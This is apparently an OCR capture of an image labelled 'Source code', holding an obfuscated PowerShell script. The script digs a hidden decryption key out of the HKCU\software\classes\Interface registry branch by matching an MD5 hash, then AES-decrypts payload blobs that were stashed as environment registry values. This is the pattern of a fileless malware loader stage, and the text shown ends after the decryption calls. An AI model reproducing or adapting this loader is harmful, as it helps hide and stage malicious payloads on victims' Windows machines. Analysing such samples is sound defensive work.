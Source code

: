 
```powershell
[System.Net.ServicePointManager]::SecurityProtocol=@("Tls12","Tls11","Tls","Ssl3")
$a1=gp "HKCU:\\Environment"
function h1($j0) {
    $v4 = [System.Security.Cryptography.HashAlgorithm]::Create('md5')
    $x3 = $v4.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($j0))
    $n6 = [System.BitConverter]::ToString($x3)
    return $n6.Replace('-', '')
}
$j2=$a1.Update
$F2=$a1.guid
$g1=$a1.bid
$y3=$a1.tid
$j5=$a1.hid
function s9($n1, $x8) {
    $k7 = gi $n1
    foreach($b5 in $k7.Property){ 
        $u6 = $k7.Name + ";" + $b5
        $x3 = h1 $u6
        if($x8 -eq $x3){
            return ((gp $n1 -Name $b5).$b5)
        }
    }
    foreach($n2 in $k7.GetSubkeyNames()){
        $v8 = s9 ($n1 + "\" + $n2) $x8
        if($v8.Length -gt 0){
            return $v8
        }
    }
    return ""
}
$m0 = s9 "HKCU:\software\classes\Interface" "6ca24d7c7f6f6465afb82dacd1b0c71f"
function n9 {
    param (
        [byte[]]$n3
    )
    $c4 = New-Object System.IO.MemoryStream($n3, 0, $n3.Length)
    $c5 = New-Object Byte[](32)
    $x2 = $c4.Read($c5, 0, $c5.Length)
    if ($x2 -ne $c5.Length) {
        exit
    }
    $b5 = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($m0, $c5)
    $b7  = $b5.GetBytes(32)
    $v9   = $b5.GetBytes(16)
    $h5 = New-Object Security.Cryptography.AesManaged
    $e3 = $h5.CreateDecryptor($b7, $v9)
    $w5 = New-Object IO.MemoryStream
    $q7 = New-Object System.Security.Cryptography.CryptoStream(
        $c4, $e3, [System.Security.Cryptography.CryptoStreamMode]::Read)
    $q7.CopyTo($w5)
    $w5.Position = 0
    $y5 = New-Object IO.StreamReader($w5)
    $u9 = $y5.ReadToEnd()
    $y5.Dispose()
    $q7.Dispose()
    $w5.Dispose()
    $c4.Dispose()
    return $u9
}
$j51 = n9 $j5
$y31 = n9 $y3
$g11 = n9 $g1
```